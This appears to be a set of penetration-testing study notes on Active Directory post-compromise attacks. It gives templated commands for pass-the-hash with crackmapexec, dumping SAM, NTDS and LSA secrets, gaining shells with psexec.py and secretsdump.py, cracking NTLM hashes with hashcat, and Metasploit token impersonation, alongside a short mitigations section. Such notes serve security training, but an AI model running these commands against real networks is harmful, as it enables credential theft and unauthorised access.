 # Active Directory Post Compromise Attacks

---
## Pass the Hash/Password
---

> If able to crack password hash, or can dump SAM hashes, try to pass around network to check for access to other machines on network.

### use crackmapexec
- Pass the password
	- ` crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- Pass the hash
	- ` crackmapexec smb <ip>CIDR> -u <user> -H <hash> --local-auth`
- Dump sam, ntds, lsa
	- ` crackmapexec smb <ip/CIDER> -u<user> -p <pass> -d <domain> --sam/--ntds/--lsa`

#### Local vs Domain pass spraying
- pass spray local not domain as domain accounts will get locked out where local will not

---
## Move Laterally
---
- If lateral access is found, can use psexec.py to gain shell on new machine
	` psexec.py <domain>/<user>:<password>@<ip> `

- next use secrets.py to dump sam on new machine
	- `secretsdump.py <domain>/<user>:<password>@<ip>`

secrets.py dumps sam hashes, lsa secrets and DPAPI keys

#### NTLM hash can be passed, NTLMV2 cannot
SAM = NTLM hash
crack with hashcat
	- `hashcat -m 1000 hashfile.txt wordlist.txt -O `

---
## Pass Attack Mitigations
---

- Limit account reuse
	- avoid re-using local admin password
	- disable guest and administrator accounts
	- limit who is a local admin (least privilege)

- use strong passwords
	- longer the better
	- avoid common words
	
- privilege access management
	- check out/in sensitvie accounts
	- auto rotate passwords on check out/in
	- limits pass attacks as passwords is constantly rotated

---
## Token Impersonation
---

- What is Token
	- Temp keys to access system/network without needing creds
	- similar to a cookie for the web

- Two types
	- Delegate, created for logging into machine or using RDP
	- Impersonate, "non interactive" such as attaching network drive

### Attack steps
- start metasploit `msfconsole` then use psexec ` use exploit/windows/smb/psexec`
- set options in psexec module then hit run
- `load incognito` to attempt token impersonation
- `list_tokens -u` list available tokens
- `impersonate_token <token name>` use "\\\\" to escape backslash i.e. domain\\user for token name domain\user
- `rev2self` to revert to self after impersonation


